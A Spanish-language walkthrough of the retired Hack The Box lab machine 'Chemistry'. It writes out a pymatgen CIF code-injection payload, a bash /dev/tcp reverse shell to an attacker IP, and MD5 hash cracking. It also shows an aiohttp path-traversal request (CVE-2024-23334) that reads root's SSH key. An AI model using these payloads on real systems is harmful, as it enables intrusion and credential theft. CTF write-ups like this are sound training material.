










---

# Información:

---


- **Nombre**: Chemistry
- **Plataforma**: Hack The Box
- **Año de creación**: 2024
- **Estatus**: Retirada
- **Creador**: FisMatHack
- **Sistema operativo**: Linux

---

## Resumen de las técnicas empleadas:

El compromiso de esta máquina requiere una cadena de ataque que combina fallos de configuración en librerías modernas y una enumeración local exhaustiva:

- **Enumeración Web:** Identificación de servicios internos y tecnologías específicas mediante el análisis de cabeceras.
- **LFI (Local File Inclusion):** Explotación de **CVE-2024-23334** en el servidor `aiohttp` para la lectura de archivos críticos.
- **Crackeo de Contraseñas:** Obtención de acceso inicial mediante la recuperación de credenciales almacenadas.
- **Deserialización en Python:** Para la manipulación de objetos y ejecución de código.
- **Escalada de Privilegios:** Aprovechamiento de servicios en ejecución bajo el contexto de **root** para la toma total del sistema.

---

# 1. Reconocimiento

---

## Comprobación de conectividad con el objetivo (Ping)

Se confirmó la conectividad con el objetivo ejecutando un `ping` de cuatro trazas. Este paso asegura que el host está activo y que no existen bloqueos de red básicos que impidan las fases posteriores de enumeración.

```bash
ping -c 4 10.129.231.170
```



**Enumeración Inicial y Fingerprinting** Tras realizar un envío de 4 paquetes ICMP, se observa un **0% de pérdida de paquetes**, lo que confirma una conectividad estable con el objetivo. Un detalle relevante es el valor del **TTL (Time To Live)** obtenido, el cual es de **63** (o cercano a 64). Basándome en los valores por defecto de la pila TCP/IP, este dato me permite inferir que el sistema operativo de la máquina es, muy probablemente, **Linux**.

---

## Escaneo de puertos (TCP)

Con la conectividad confirmada, procedí a realizar un escaneo exhaustivo sobre todo el rango de puertos (**65535**) bajo el protocolo **TCP**. Para optimizar el tiempo de respuesta sin sacrificar la precisión, utilicé un **Stealth Scan (-sS)** y ajusté el rendimiento mediante el control de la tasa de paquetes.

**Comando ejecutado**

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.231.170 -oN full-ports.txt
```

### Análisis de parámetros:

- **`-p-`**: Escanea el rango completo de puertos (1-65535).
- **`--open`**: Filtra los resultados para mostrar únicamente los puertos con estado abierto.
- **`-sS` (TCP Stealth Scan)**: Técnica que no completa la conexión (TCP Three-Way Handshake), lo que la hace más rápida y menos ruidosa.
- **`--min-rate 5000`**: Asegura que se envíen al menos 5000 paquetes por segundo, acelerando drásticamente el escaneo en entornos de laboratorios.
- **`-Pn`**: Omite el descubrimiento de host (asume que la máquina está encendida).
- **`-n`**: Deshabilita la resolución DNS para evitar retardos adicionales.
## Resultados

El escaneo exhaustivo reveló la presencia de **dos servicios** activos en el objetivo:

- **Puerto 22/TCP**: Ejecutando el servicio **SSH**. Aunque es un vector común, suele requerir credenciales válidas a menos que la versión del software sea vulnerable.
- **Puerto 5000/TCP**: Identificado inicialmente como **UPnP**. Sin embargo, en entornos de auditoría, el puerto 5000 es frecuentemente utilizado para aplicaciones web personalizadas (como Flask, Docker o APIs).

Dado que el puerto 5000 es el menos convencional y representa la superficie de ataque más probable, el siguiente paso lógico es realizar un escaneo de **detección de versiones y scripts por defecto (-sC -sV)**.

---

# 2. Enumeración

---

## Enumeración Detallada: Versiones y Scripts (NSE)

Tras identificar los puertos abiertos, procedí con una fase de enumeración dirigida sobre los servicios detectados (**22** y **5000**). El objetivo es determinar las versiones exactas del software y ejecutar la suite de scripts por defecto del **Nmap Scripting Engine (NSE)** para detectar vulnerabilidades comunes o configuraciones interesantes.

**Comando ejecutado:**

```bash
nmap -p 22,5000 -sCV 10.129.231.170 -oN versions-nse.txt
```

### Desglose del comando:

- **`-p 22,5000`**: Escaneo selectivo únicamente en los puertos de interés para ahorrar tiempo y tráfico de red.
- **`-sV`**: Detección de versiones, lo que permite identificar el software específico y su número de versión.
- **`-sC`**: Ejecuta los scripts predeterminados de Nmap (`default`), que realizan tareas como extraer banners, identificar métodos HTTP permitidos o verificar debilidades conocidas.
- **`-oN versions-nse.txt`**: Registro de la salida detallada en un archivo para el análisis posterior de las versiones encontradas.

#### Análisis de resultados:



Los resultados detallados de Nmap proporcionan datos críticos sobre el stack tecnológico del objetivo:

**1. Servicio SSH (Puerto 22)**

- **Versión:** `OpenSSH 8.2p1 Ubuntu 4ubuntu0.11`
- **Análisis:** La nomenclatura del paquete confirma que el sistema operativo es **Ubuntu 20.04 (Focal Fossa)**. No se han identificado vulnerabilidades de ejecución remota de comandos (RCE) o de omisión de autenticación para esta versión específica. Dada su robustez, el acceso por esta vía quedaría relegado a la obtención previa de credenciales válidas.

**2. Servicio HTTP (Puerto 5000)**

- **Tecnologías:** `Werkzeug 3.0.3` / `Python 3.9.5`
- **Análisis:** Se confirma que el puerto 5000 aloja una aplicación web desarrollada en Python, probablemente utilizando el framework **Flask**.
    
    - **Werkzeug 3.0.3** es una versión reciente y estable, por lo que no presenta exploits conocidos de carácter público (p. ej., vulnerabilidades en el modo Debug).
    - **Python 3.9.5** es una versión moderna que, por sí misma, no constituye un vector de entrada.

**Conclusión de la fase:** Al no existir vulnerabilidades evidentes para estas versiones, el foco de la auditoría debe pasar hacia la **enumeración lógica de la aplicación web**.

---

## Enumeración web

Para complementar la información obtenida con Nmap, utilicé la herramienta **WhatWeb** con el fin de identificar posibles cabeceras HTTP adicionales, frameworks de frontend o configuraciones específicas del servidor web que pudieran haber pasado desapercibidas.

**Ejecución de WhatWeb:**

```bash
whatweb http://10.129.231.170:5000                              
http://10.129.231.170:5000 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.9.5], IP[10.129.231.170], Python[3.9.5], Title[Chemistry - Home], Werkzeug[3.0.3]
```

**Conclusión:** Dado que la huella digital coincide con el escaneo de servicios previo y no se detectan otros componentes (como scripts de Analytics o librerías de JS vulnerables), la siguiente fase se centrará en la **exploración manual de la interfaz** y la identificación de funciones de entrada de datos (formularios, carga de archivos o parámetros de URL).
### Exploración web

Al acceder a la raíz del servidor en el puerto 5000, se presenta un **panel de autenticación**. Inicié la fase de explotación probando vectores de ataque comunes y analizando el comportamiento del formulario:

**1. Enumeración de Usuarios y Bypass de Registro**

- **Pruebas de Fuerza Bruta:** Se intentaron credenciales por defecto (`admin:admin`, `guest:guest`), resultando en accesos fallidos.
- **Enumeración de Usuarios:** Al intentar registrar una cuenta con el nombre `admin`, la aplicación devolvió un error indicando que el usuario ya existe. Esto confirmó que `admin` es una cuenta válida en el sistema.
- **Acceso de Usuario:** Para explorar las funcionalidades internas, registré un usuario de prueba, lo que me permitió evadir el panel de login y acceder al dashboard principal.

**2. Análisis del Vector de Carga (File Upload)**

Una vez dentro, identifiqué una funcionalidad destinada a la **carga de archivos**.

- **Restricción de Formato:** La aplicación solicita específicamente archivos con extensión **.cif** (Crystallographic Information File).
- **Pruebas de Intrusión (Fuzzing de extensiones):** Intenté subir archivos con extensiones `.txt` y `.py` (aprovechando el conocimiento previo de que el backend utiliza Python), pero el servicio los rechazó o no los procesó correctamente.
- **Recolección de Artefactos:** La plataforma proporciona un **archivo de ejemplo válido**. Este recurso es crítico, ya que permite analizar la estructura interna que el servidor espera procesar y buscar posibles vulnerabilidades de inyección o deserialización dentro de dicho formato.



#### Enumeración de directorios

Con el objetivo de descubrir rutas ocultas o paneles de administración no indexados, utilicé la herramienta **Gobuster** para realizar un ataque de fuerza bruta sobre el servidor web.

**Comando ejecutado:**

```bash
gobuster dir -u http://127.0.0.1:8080 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,json,py,txt,xml -t 100 -o directory-discovery.txt
```

**Hallazgos y Análisis de Resultados:**

Tras el escaneo, se identificaron varios directorios. La mayoría correspondían a rutas ya exploradas durante la navegación manual (como `/login` o `/register`), con una excepción crítica:

- **Directorio `/upload` (HTTP 405 - Method Not Allowed):** * **Análisis:** El código de estado **405** es altamente revelador. Indica que el recurso existe, pero que el método utilizado (probablemente `GET` al intentar acceder por navegador) no es el permitido.

    - **Hipótesis:** Dado el nombre del directorio y el comportamiento de la aplicación, este endpoint es probablemente el receptor de las peticiones `POST` cuando un usuario carga un archivo **.cif**.
    - **Superficie de ataque:** Este hallazgo confirma que `/upload` es el punto de interacción entre el usuario y el backend de procesamiento de archivos, convirtiéndolo en el **objetivo principal** para pruebas de inyección o manipulación de datos.



##### **Conclusión de la exploración:** 

Tras una fase de investigación dirigida sobre la estructura del formato y sus librerías de procesamiento en Python, identifiqué un vector de **Inyección de Código** basado en la manipulación de etiquetas dentro de archivos **.cif**.

**Hallazgo clave:** Ciertos motores de parseo permiten la ejecución de funciones arbitrarias si el contenido del archivo no está debidamente sanitizado. Esto abre una vía directa para intentar una **Ejecución Remota de Comandos (RCE)** aprovechando el entorno de Python detectado previamente.

---

## Identificación de vulnerabilidad (CVE-2024-23346)

Se identifico que la librería **Pymatgen** (usada para procesar archivos CIF) es vulnerable a la ejecución remota de código en versiones anteriores a la **2024.2.20**. El fallo reside en el uso inseguro de `eval()` dentro del método `JonesFaithfulTransformation.from_transformation_str()`.

fuente: [GitHub/pymatgen](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

**Vector de Ataque:** Inyección de comandos de Python a través de una cadena de transformación maliciosa en el archivo `.cif`.

**Validación (PoC):** Para confirmar la ejecución, se inyecto un comando `ping` hacia mi IP de atacante, monitoreando el tráfico entrante con **tcpdump** para capturar los paquetes ICMP.

### **Prueba de concepto:**

**Preparación del exploit:**
```bash
# Payload inyectado en el campo de transformación:
__import__('os').system('ping -c 4 [TU_IP_VPN]')
```

**A la escucha desde la máquina atacante:**
```bash
tcpdump -i tun0 icmp
```

#### Resultados:

**Resultado:** La recepción de trazas ICMP en `tcpdump` confirma la **Ejecución Remota de Comandos (RCE)** con privilegios del usuario que corre el servicio web.



---

# 3. Explotación (Acceso inicial)

---

## Acceso como usuario: app

Tras identificar la vulnerabilidad de inyección, se procedió a ejecutar una **Reverse Shell** para obtener persistencia en el sistema.

**Explotación del Vector**

Se inyectó el siguiente payload en el script para forzar la conexión remota:

```bash
"BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c '/bin/bash -i >& /dev/tcp/<ip_atacante>/3000 0>&1'");0,0,0'
```

**Post-Explotación y Verificación**

Una vez establecida la sesión, se validó la identidad del usuario y el contexto del sistema:

- **Comando:** `whoami`
- **Resultado:** `app`
- **Estado:** Acceso exitoso como usuario de bajos privilegios.



---

## Tratamiento de TTY

Tras recibir la conexión entrante de la _reverse shell_, la consola obtenida es limitada (no interactiva). Se procedió a estabilizar la TTY para permitir el uso de comandos interactivos, autocompletado con tabulador y gestión de señales del teclado.

**Procedimiento ejecutado:**

1. **Generación de una PTY (Pseudo-Terminal):** `script /dev/null -c bash`
    - _Explicación:_ El comando `script` permite crear una nueva sesión de shell Bash simulando un terminal real.
2. **Suspensión de la shell:** `Ctrl + Z`
    - _Explicación:_ Se envía el proceso de la shell al segundo plano (_background_) para configurar el terminal local.
3. **Configuración del terminal local:** `stty raw -echo; fg`
    - _Explicación:_ * `stty raw`: Indica a nuestra máquina atacante que pase los caracteres directamente a la shell remota sin procesarlos.
        - `-echo`: Desactiva el eco local (para no ver los comandos duplicados).
        - `fg`: Trae de vuelta la shell suspendida al primer plano (_foreground_).
4. **Reinicio y configuración de variables de entorno:** `reset xterm` `export TERM=xterm` `export SHELL=/bin/bash`.
    - _Explicación:_ Esto define que el terminal es de tipo `xterm` y que la shell por defecto es `bash`, permitiendo funciones como limpiar la pantalla (`clear`).

---

## Extracción de credenciales

Tras estabilizar la **TTY**, inicié una fase de enumeración local para identificar vectores de escalada de privilegios o credenciales hardcodeadas en el sistema.

1. **Revisión del Código Fuente:** Al listar los archivos en el directorio actual, localicé `app.py`. Dado que es el núcleo de la aplicación, analicé sus cadenas de texto para extraer configuraciones sensibles:

```bash
strings app.py
```

**Hallazgos:**

- **SECRET_KEY:** `MyS3cretCh3mistry4PP` (Útil para ataques de manipulación de sesiones).
- **Database URI:** `sqlite:///database.db` (Indica el uso de una base de datos SQLite local).

2. **Localización de la Base de Datos:** Para interactuar con la base de datos y extraer posibles credenciales de usuarios, utilicé el comando `find` para ubicar el archivo en el sistema de archivos:

```bash
find / -name database.db 2>/dev/null
```

### Resultado:

Tras localizar la base de datos en `/home/app/instance/database.db`, utilicé el cliente **sqlite3** para interactuar con el archivo y extraer la información de las tablas.

**Consulta ejecutada:**

```bash
sqlite3 /home/app/instance/database.db "SELECT * FROM user;"
```

**Análisis de Resultados:** La tabla `user` reveló una lista de 16 usuarios con sus respectivos **hashes de contraseña**. La estructura de los hashes (32 caracteres hexadecimales) sugiere inicialmente el uso del algoritmo **MD5**.

|**ID**|**Usuario**|**Hash (Posible MD5)**|
|---|---|---|
|1|admin|`2861debaf8d99436a10ed6f75a252abf`|
|3|**rosa**|`63ed86ee9f624c7b14f1d4f43dc251a5`|
|13|axel|`9347f9724ca083b17e39555c36fd9007`|

#### Crackeo de contraseña y movimiento lateral

Con el listado de hashes obtenido, procedí a realizar un ataque de fuerza bruta offline sobre el hash del usuario **rosa**, utilizando el diccionario `rockyou.txt`.

**Cracking con John the Ripper:**

Dada la longitud y formato del hash, se identificó como **MD5 (raw)**. La recuperación de la contraseña fue exitosa:

**Comandos ejecutados:**

```bash
echo "63ed86ee9f624c7b14f1d4f43dc251a5" > hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

- **Resultado:** Se identificó la credencial `rosa:unicorniosrosados`.

**Validación y Acceso vía SSH:**

Para confirmar si estas credenciales permitían acceso al sistema operativo, verifiqué primero la existencia del usuario en `/etc/passwd`. Tras confirmar que **rosa** es un usuario válido con capacidad de login, procedí a establecer una conexión vía **SSH**.

**Comando de acceso:**

```bash
ssh rosa@10.129.231.170
```




---

# 4. Post-Explotación

---


## Enumeración del sistema

Tras obtener acceso inicial, se realizó una auditoría local del sistema con el objetivo de identificar vectores de elevación de privilegios hacia el usuario `root`.

**Recolección de Información (Enumeración)**:
Se ejecutaron los siguientes comandos para identificar configuraciones erróneas o binarios vulnerables:

- **Información del Kernel:** `uname -a` (Búsqueda de exploits conocidos).
- **Contexto de Usuario:** `id` y `sudo -l` (Verificación de permisos de sudoers).
- **Binarios SUID:** `find / -perm -4000 -user root 2>/dev/null` (Localización de archivos con bit de ejecución de root).
- **Capabilities:** `getcap -r / 2>/dev/null` (Revisión de capacidades especiales en archivos).
- **Servicios Internos:** `netstat -ant` (Identificación de puertos activos en localhost).

**Hallazgos:**
Tras realizar una enumeración detallada del sistema con `netstat -ant`, se identificó que el puerto **8080** se encuentra en estado `LISTEN` únicamente en la interfaz de loopback (`127.0.0.1`). Esto indica la presencia de un servicio web interno no accesible directamente desde el exterior.

**Local Port Forwarding via SSH:**
Para auditar el servicio, se estableció un túnel SSH utilizando **Local Port Forwarding**. Esto permite mapear el puerto remoto a nuestra máquina de atacante de forma cifrada:

```bash
ssh -L 8080:127.0.0.1:8080 -N -vv rosa@10.129.231.170
```

**Desglose del comando:**

- **`-L 8080:127.0.0.1:8080`**: Redirige el tráfico de nuestro puerto local `8080` hacia el puerto `8080` del objetivo.
- **`-N`**: Instruye a SSH a no ejecutar comandos remotos, limitándose exclusivamente al túnel de datos.
- **`-vv`**: Activa el modo _verbose_ para monitorear en tiempo real la actividad del túnel y confirmar el paso de peticiones.

Con el túnel activo, el servicio ahora es accesible localmente a través de `http://127.0.0.1:8080`, permitiendo el uso de herramientas de análisis como el navegador, **Burp Suite** o **Gobuster**.

### Identificación del vector

Tras establecer el túnel SSH y acceder a `http://127.0.0.1:8080`, una inspección inicial de la interfaz web no reveló vectores de ataque evidentes ni directorios expuestos mediante navegación convencional.

Dada la naturaleza del servicio, el siguiente paso crítico consiste en profundizar en la **identificación del proceso** a nivel de sistema operativo. El objetivo es determinar el binario en ejecución y, fundamentalmente, el contexto de privilegios (usuario) bajo el cual corre.



**Revisión de procesos:**
Con el objetivo de determinar el contexto de ejecución del servicio en el puerto **8080**, se procedió a realizar una correlación entre el socket abierto y su correspondiente identificador de proceso (**PID**).

**Correlación de Socket y PID:**
Se utilizó la utilidad `ss` para filtrar los sockets en estado de escucha y extraer el PID asociado:

```bash
ss -lntp | grep 8080
```

Tras obtener el **PID 128**, se ejecutó una inspección detallada del proceso para identificar al propietario y la línea de comandos de ejecución:

```bash
ps -u -p 128
```

**Hallazgos de Privilegios:**
Los resultados confirmaron que el proceso es ejecutado bajo el contexto del usuario **root**.

Este hallazgo es crítico para la cadena de ataque: al ser un servicio con privilegios de superusuario, cualquier vulnerabilidad que permita la **ejecución remota de código (RCE)** o la manipulación de archivos a través de la interfaz web resultará en una **escalada de privilegios inmediata** hacia el control total del sistema.

---

## Enumeración web

---

### Escaneo NSE y detección de versiones (Nmap)

Se procedió a lanzar un escaneo con *Nmap*, para detectar la versión del servicio web, además se agrega `-sC`, para que se ejecute el conjunto de scripts de reconocimiento por defecto.

**Comando ejecutado:**

```bash
nmap -p 8080 -sCV 127.0.0.1
```

#### Análisis de resultados

Tras una enumeración exhaustiva del servicio en el puerto **8080**, se procedió a identificar las tecnologías subyacentes y sus versiones específicas. Los resultados obtenidos mediante el banner del servidor y las cabeceras HTTP revelan el siguiente stack:

- **Servidor Web:** `aiohttp/3.9.1`
- **Lenguaje:** `Python/3.9`
- **Título del Sitio:** `Site Monitoring`

```bash
PORT     STATE SERVICE VERSION
8080/tcp open  http    aiohttp 3.9.1 (Python 3.9)
|_http-server-header: Python/3.9 aiohttp/3.9.1
|_http-title: Site Monitoring
```

##### Identificación de CVE-2024-23334

La investigación de la versión `aiohttp 3.9.1` reveló la existencia de una vulnerabilidad crítica de **Directory Traversal / Arbitrary File Read**, catalogada como **CVE-2024-23334**.

Esta vulnerabilidad ocurre cuando la aplicación está configurada para servir archivos estáticos con el parámetro `follow_symlinks` habilitado. Debido a una validación insuficiente en las rutas solicitadas, un atacante puede evadir el directorio raíz y leer archivos sensibles del sistema operativo.

**Impacto y Vector de Ataque:**
Dado que previamente se confirmó que el proceso se ejecuta con privilegios de **root**, la explotación exitosa de este LFI (_Local File Inclusion_) no solo permitiría la lectura de archivos de configuración o código fuente, sino también el acceso a archivos críticos como `/etc/shadow` o claves privadas de SSH (`/root/.ssh/id_rsa`).

Esto convierte a **CVE-2024-23334** en el vector definitivo para la toma de control total del objetivo.

---

## Preparación del exploit y prueba de concepto

Al analizar el exploit disponible en GitHub, se observa que el payload base apunta al directorio `/static/`. Sin embargo, tras una inspección manual, se confirmó que dicha ruta no está presente en el servidor objetivo.

```bash
site_url = args.site
string = "../"
payload = "/static/"
```

Para que **CVE-2024-23334** sea explotable, es imperativo identificar el nombre del directorio que `aiohttp` utiliza para servir recursos (como imágenes, hojas de estilo o scripts de JS).

### Exploración de subdirectorios con Gobuster

Se procedió con la enumeración de subdirectorios a través de *Gobuster*, con la finalidad de encontrar el directorio que me permitiera explotar este vector.

**Comando usado:**

```bash
gobuster dir -u http://127.0.0.1:8080 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,json,py,txt,xml -t 100 -o directory-discovery.txt
```

**Resultados:**
Tras realizar un proceso de enumeración de directorios, se identificó la ruta `/assets/`. Aunque el acceso directo devuelve un código de estado **403 Forbidden**, esto confirma la existencia del directorio en el servidor y su potencial como punto de entrada para el vector de ataque.

**Identificación del Filtro y Evasión:**
Inicialmente, se intentó una explotación estándar utilizando caracteres literales (`../../`). Sin embargo, el servidor no procesó la solicitud correctamente, lo que sugiere la presencia de un mecanismo de filtrado o una validación básica de caracteres en la URL.

Para evadir esta restricción, se procedió a aplicar **URL Encoding** a la secuencia de salto de directorio. Al transformar los puntos y barras en sus equivalentes hexadecimales (`%2e%2e%2f`), se logró confundir el filtro del servidor, permitiendo que `aiohttp` interpretara la ruta final tras la decodificación interna.

**Resultado:** La solicitud fue procesada con éxito, devolviendo el contenido de `root.txt`. Esto confirma no solo la vulnerabilidad **CVE-2024-23334**, sino también que el servicio web tiene privilegios totales sobre el sistema de archivos, completando así el vector de escalada de privilegios.



---

## Escalada de privilegios (root)

Una vez confirmada la capacidad de lectura de archivos arbitrarios mediante el **LFI**, el objetivo se centró en obtener una persistencia más robusta y una shell interactiva con máximos privilegios. Dado que el servicio `aiohttp` se ejecuta como **root**, se procedió a buscar una clave privada de SSH (`id_rsa`) en el directorio personal del administrador.

### Extracción de Credenciales (id_rsa)

Se utilizó el payload con **URL Encoding** para apuntar a la ruta estándar de las llaves de SSH en Linux:

```bash
http://127.0.0.1:8080/assets/..%2f..%2f..%2f..%2f..%2f..%2froot/.ssh/id_rsa
```

El servidor procesó la petición exitosamente, permitiendo la descarga de la clave privada de identidad del usuario **root**.

#### Establecimiento de la Sesión SSH

Para utilizar la llave obtenida, es imperativo ajustar los permisos del archivo de acuerdo con los requisitos de seguridad de SSH. Sin este paso, el cliente SSH descartará la llave por ser "demasiado abierta":

1. **Ajuste de permisos:**

```bash
chmod 600 id_rsa
```

2. **Conexión al objetivo:**

```bash
ssh -i id_rsa root@10.129.231.170
```

##### Conclusión del Compromiso

Al ingresar exitosamente sin necesidad de contraseña, se confirma el compromiso total del sistema. La vulnerabilidad inicial en la configuración de archivos estáticos de `aiohttp` permitió saltar de un acceso de usuario limitado (`rosa`) a un control absoluto como `root`.



---


